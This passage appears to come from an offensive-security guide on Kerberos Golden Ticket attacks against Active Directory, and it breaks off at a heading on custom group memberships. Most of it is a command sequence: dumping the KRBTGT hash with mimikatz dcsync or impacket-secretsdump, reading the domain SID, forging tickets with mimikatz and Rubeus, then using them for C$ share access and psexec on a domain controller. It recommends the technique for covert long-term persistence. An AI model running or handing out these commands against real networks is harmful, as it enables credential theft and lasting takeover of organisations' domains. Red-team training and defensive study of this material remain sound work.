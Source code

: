 ### **Golden Ticket Attacks**

**What Golden Ticket attacks are:** Advanced persistence technique using forged Kerberos Ticket Granting Tickets (TGTs) with the KRBTGT account hash. Provides persistent domain access independent of password changes.

**Why Golden Tickets are powerful:** Complete domain persistence, bypasses most security controls, difficult to detect, and survives password resets of compromised accounts.

**When to use Golden Tickets:** After achieving domain admin access, for long-term persistence, and for covert access to domain resources.

```bash
# Golden Ticket attack requirements
# 1. KRBTGT account password hash (requires Domain Admin access)
# 2. Domain SID
# 3. Target username to impersonate

# Step 1: Obtain KRBTGT hash
# Using mimikatz (requires Domain Admin privileges)
mimikatz "privilege::debug" "lsadump::dcsync /user:krbtgt" "exit"
# Alternative: Extract from domain controller SAM/NTDS.dit

# Using impacket-secretsdump (from Linux)
impacket-secretsdump domain.local/admin:password@dc01.domain.local -just-dc-user krbtgt

# Step 2: Get domain SID
# PowerShell method
(Get-ADDomain).DomainSID.Value

# Alternative method
wmic useraccount where name='administrator' get sid
# Remove last number to get domain SID (e.g., S-1-5-21-1234567890-1234567890-1234567890)

# Step 3: Create Golden Ticket
# Using mimikatz
mimikatz "kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /krbtgt:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff /ptt"

# Parameters explanation:
# /user: Username to impersonate
# /domain: Target domain
# /sid: Domain SID
# /krbtgt: KRBTGT account NTLM hash
# /ptt: Pass the ticket (inject into current session)

# Alternative: Save ticket to file
mimikatz "kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /krbtgt:d9485863c1e9e05851aa40cbb4ab9dff /ticket:golden.kirbi"

# Step 4: Use Golden Ticket
# If ticket was injected (/ptt), can immediately access domain resources
dir \\dc01.domain.local\c$
psexec \\dc01.domain.local cmd.exe

# If ticket was saved to file, load it first
mimikatz "kerberos::ptt golden.kirbi"

# Using Rubeus for Golden Ticket creation
.\Rubeus.exe golden /rc4:d9485863c1e9e05851aa40cbb4ab9dff /user:Administrator /domain:domain.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /ptt

# Advanced Golden Ticket techniques
# Custom group memberships
```